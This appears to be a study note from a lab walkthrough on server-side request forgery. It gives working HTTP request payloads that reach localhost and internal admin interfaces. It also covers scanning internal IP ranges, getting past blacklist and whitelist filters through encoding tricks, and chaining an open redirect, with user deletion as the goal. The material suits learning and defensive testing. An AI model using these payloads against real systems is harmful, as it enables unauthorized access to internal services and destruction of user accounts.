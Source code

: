 Server side request forgery is a web application vulnerability that allows the server side aplication to make  HTTP requests to an arbitrary domain of the attacker's choosing.

#### SSRF attacks against the server itself

In an SSRF attack against the server itself, the attacker induces the application to make an HTTP request back to the server that is hosting the application, via its loopback network interface.
This will typically involve supplying a URL with a hostname like 127.0.0.1 (a reserved IP address that points to the loopback adapter) or localhost.
for example:
````
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1
````
The above shopping application checks its stock status by requesting various back-end REST APIs so the request goes into the "stockApi" variable through frontend HTTP requests and 
by modiifng the "stockApi" variable into "http://localhost/admin"
````
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://localhost/admin
````
Now if u can delete a user by "http://localhost/admin/delete?username=user1"

#### SSRF attacks against other back-end systems
Another type of trust relationship that often arises with server-side request forgery is where the application server is able to interact with other back-end systems that are not directly reachable by users. These systems often have non-routable private IP addresses. Since the back-end systems are normally protected by the network topology, they often have a weaker security posture.
````
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://IP/admin
**To find the correct IP octate try passing it to intruder and then add the payload to the required octate(192.168.0.1 here .1) change the payload type to Numbers 1-255.**
````
#### SSRF with blacklist-based input filters
Some applications block input containing hostnames like 127.0.0.1 and localhost, or sensitive URLs like /admin. In this situation, you can often circumvent the filter using various techniques:

Using an alternative IP representation of 127.0.0.1, such as 2130706433, 017700000001, or 127.1.
Registering your own domain name that resolves to 127.0.0.1. You can use spoofed.burpcollaborator.net for this purpose.
Obfuscating blocked strings using URL encoding or case variation.
example:-
Example from the line13 try changing the stockapi to http://127.1/admin and if that didnt work try using the Double-URL encoding for a in admin. 

#### SSRF with whitelist-based input filters
````
1.Visit a product, click "Check stock", intercept the request in Burp Suite, and send it to Burp Repeater.

2.Change the URL in the stockApi parameter to http://127.0.0.1/ and observe that the application is parsing the URL, 
extracting the hostname, and validating it against a whitelist.

3.Change the URL to http://username@stock.weliketoshop.net/ and observe that this is accepted, 
indicating that the URL parser supports embedded credentials.

4.Append a # to the username and observe that the URL is now rejected.

5.Double-URL encode the # to %2523 and observe the extremely suspicious "Internal Server Error" response, 
indicating that the server may have attempted to connect to "username".

6.Change the URL to http://localhost:80%2523@stock.weliketoshop.net/admin/delete?username=carlos 
to access the admin interface and delete the target user.
````

#### Bypassing SSRF filters via open redirection
It is sometimes possible to circumvent any kind of filter-based defenses by exploiting an open redirection vulnerability.

In the preceding SSRF example, suppose the user-submitted URL is strictly validated to prevent malicious exploitation of the SSRF behavior. However, the application whose URLs are allowed contains an open redirection vulnerability. Provided the API used to make the back-end HTTP request supports redirections, you can construct a URL that satisfies the filter and results in a redirected request to the desired back-end target.

For example, suppose the application contains an open redirection vulnerability in which the following URL:
````
/product/nextProduct?currentProductId=6&path=http://evil-user.net
````
returns a redirection to:

http://evil-user.net

You can leverage the open redirection vulnerability to bypass the URL filter, and exploit the SSRF vulnerability as follows:
````
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin
````
This SSRF exploit works because the application first validates that the supplied stockAPI URL is on an allowed domain, which it is. The application then requests the supplied URL, which triggers the open redirection. It follows the redirection, and makes a request to the internal URL of the attacker's choosing.







